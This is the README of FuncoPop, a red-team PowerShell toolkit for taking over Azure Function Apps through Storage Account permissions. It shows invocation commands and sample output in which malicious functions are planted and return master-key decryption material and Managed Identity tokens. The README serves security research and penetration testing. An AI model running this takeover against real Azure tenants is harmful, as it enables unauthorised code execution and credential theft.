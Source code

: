 ![FuncoPopLogo](https://notpayloads.blob.core.windows.net/images/FuncoPop-bg-final.png)
<br> 
[![licence badge]][licence] 
[![stars badge]][stars] 
[![forks badge]][forks] 
[![issues badge]][issues]

![Twitter Follow](https://img.shields.io/twitter/follow/kfosaaen.svg?style=social)
![Twitter Follow](https://img.shields.io/twitter/follow/thomas_elling.svg?style=social)

[licence badge]:https://img.shields.io/badge/license-New%20BSD-blue.svg
[stars badge]:https://img.shields.io/github/stars/NetSPI/FuncoPop.svg
[forks badge]:https://img.shields.io/github/forks/NetSPI/FuncoPop.svg
[issues badge]:https://img.shields.io/github/issues/NetSPI/FuncoPop.svg


[licence]:https://github.com/NetSPI/FuncoPop/blob/master/LICENSE.txt
[stars]:https://github.com/NetSPI/FuncoPop/stargazers
[forks]:https://github.com/NetSPI/FuncoPop/network
[issues]:https://github.com/NetSPI/FuncoPop/issues


### FuncoPop: PowerShell Tools for Attacking Azure Function Apps

FuncoPop includes functions and scripts that support attacking Azure Funtion Apps, primarily through exploiting Storage Account Access. In many environments, users are granted generous Storage Account permissions (Storage Account Contributor) in Azure RBAC, resulting in access to Storage Accounts that support Function Apps. This unintended cross-service access can give an attacker the ability to pivot through Storage Accounts to gain access to Function Apps. This access includes visibility into the Funtion App keys, ability to run code in the Function App containers, and the ability to access Managed Identities attached to the Function Apps.

These tools were initially released as part of the "What the Function: A Deep Dive into Azure Function App Security" talk from the DEF CON 31 Cloud Village.

### Author, Contributors, and License
* Author:
	* Thomas Elling ([@thomaselling](https://twitter.com/thomas_elling)), NetSPI
	* Karl Fosaaen ([@kfosaaen](https://twitter.com/kfosaaen)), NetSPI
* License: BSD 3-Clause
* Required Dependencies: Az PowerShell Module

### Tool Usage
There are two parts to this tool - Extraction and Decryption

## Key Extraction
In order to run the key extraction tool, you will need to have an authenticated Azure (Az) PowerShell login with some role that allows Read/Write access to a vulnerable Function App Storage Account. In Powershell, you will need to import the function in order to run it.

**Importing the function:**
	`Import-Module .\Invoke-AzFunctionAppTakeover.ps1`

Once imported, you can run the function:
  `Invoke-AzFunctionAppTakeover -Verbose`

```
VERBOSE: Currently logged in via Az PowerShell as kfosaaen@notatenant.com
VERBOSE: Use Connect-AzAccount to change your user
VERBOSE: Dumping Function App information for Selected Subscriptions...
VERBOSE:    Enumerating Function App attached Storage Accounts in the TestEnvironment subscription
VERBOSE:            Function App Storage Account Found - POCstorageAccount1 - mystarterapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - importantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - lessimportantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount3 - managedidentityfunction Function App
[Truncated]
VERBOSE:    15 Function App Storage Accounts Enumerated in the Subscription
VERBOSE:    Dumping Function App information for selected Storage Accounts
VERBOSE:            Determining Function App Language of the managedidentityfunction function in the POCstorageAccount3 Storage Account
VERBOSE:                    Reviewing the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET folder found in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger1 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger2 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            Attempting to add a new ASP.NET function to the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account
VERBOSE:                                    Creating the MFRgBWvsDIlkyfT folder in the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account and uploading files
VERBOSE:                                    Sleeping for 60 seconds before calling the new function
VERBOSE:                                    Calling the new function (until it stops 404-ing) to return the tokens and decryption key, this may take a while...
VERBOSE:                                            Avoid hitting ctrl+C to break out of this, you will need to manually remove the added Storage Account files in order to clean up
VERBOSE:                                    Removing the files from the Storage Account
VERBOSE:            Completed attacking the managedidentityfunction Function App in the managedidentityfunctiona16a File Share

FunctionApp        : managedidentityfunction
EncryptedMasterKey : bm9[Truncated]=
EncryptionKey      : 1B1[Truncated]9
ManagementToken    : eyJ[Truncated]g
VaultToken         : eyJ[Truncated]g
GraphToken         : eyJ[Truncated]Q

VERBOSE: All Function App / Storage Account attacks have completed
```

The function will prompt you to select a Subscription to attack. Once it has enumerated vulnerable Storage Accounts, you will be prompted with a list of accounts to attack. Select the ones you want to attack and the function will add malicious functions to the Storage Accounts, and attempt to execute them. These malicious functions will return the decryption key for the Function App Master Key, along with Managed Identity tokens (*if available).

Please note that the function supports PowerShell, ASP.NET, Python, and Node for payloads. At this time, attacking Java Function Apps is not supported, but may be added in the future.

Required Module to install:
* <a href="https://docs.microsoft.com/en-us/powershell/azure/new-azureps-module-az?view=azps-3.6.1">Az</a>

## Key Decryption
The easiest way to decrypt the keys returned from the PowerShell function is to run the Function App that we created to do the decryption.
### Host your own Function App to decrypt the keys
Use the following Deploy button to deploy a function app to your Azure subscription that can be used to decrypt the extracted keys.

[![Deploy to Azure](https://github.com/Azure-Samples/function-app-arm-templates/blob/main/images/deploytoazure.png?raw=true)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FNetSPI%2FFuncoPop%2Fmain%2Fazuredeploy.json)

![image](https://github.com/NetSPI/FuncoPop/assets/2163397/3e4032b9-3614-422c-88ee-55516c1acdb1)



### Related Blogs
* <a href="https://blog.netspi.com/lateral-movement-azure-app-services/">Lateral Movement in Azure App Services</a>

### Presentations
* <a href="https://github.com/NetSPI/FuncoPop">What the Function: A Deep Dive into Azure Function App Security - DEF CON 31 - Cloud Village</a>
  - <a href="https://github.com/NetSPI/FuncoPop">Slides</a>

### Previous Research
* <a href="https://rogierdijkman.medium.com/privilege-escalation-via-storage-accounts-bca24373cc2e">Rogier Dijkman - Privilege Escalation via storage accounts</a>
* <a href="https://orca.security/resources/blog/azure-shared-key-authorization-exploitation/">Roi Nisimi - From listKeys to Glory: How We Achieved a Subscription Privilege Escalation and RCE by Abusing Azure Storage Account Keys</a>
* <a href="https://msrc.microsoft.com/blog/2023/04/best-practices-regarding-azure-storage-keys-azure-functions-and-azure-role-based-access/">MSRC - Best practices regarding Azure Storage Keys, Azure Functions, and Azure Role Based Access</a>
* <a href="https://medium.com/xm-cyber/10-ways-of-gaining-control-over-azure-function-apps-7e7b84367ce6">Bill Ben Haim & Zur Ulianitzky - 10 ways of gaining control over Azure function Apps</a>
* <a href="https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95">Andy Robbins – Abusing Azure App Service Managed Identity Assignments</a>


	
